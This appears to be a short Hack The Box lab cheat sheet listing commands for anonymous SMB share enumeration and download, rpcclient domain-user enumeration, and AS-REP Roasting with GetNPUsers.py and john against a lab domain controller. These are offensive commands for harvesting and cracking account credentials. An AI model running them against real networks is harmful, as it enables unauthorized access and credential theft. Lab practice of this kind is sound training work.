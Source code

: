 Port 5985 - WinRM
### SMB :
       smbclient -U "" -L //<ip>         ->  -L flag Get a list of shares available on a host
       smbcleint -U "" //<ip>            ->  Connects to our users shares
 
       smb: \> recurse on               ->  Recursively list the contents
       smb: \> ls
       
       mget                             ->  Downloads file
       
       smbget -R smb://<ip>/path/ -U "" -> -R flag recursive download smbfiles owned by -U
       
### rpcclient:
      rpcclient -U "" -N 10.10.10.161
      commands:
               enumdomusers
               queryuser

### AS-REP Roasting:
      ./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -usersfile users.txt
      john --wordlist=/usr/share/wordlists/rockyou.txt hash
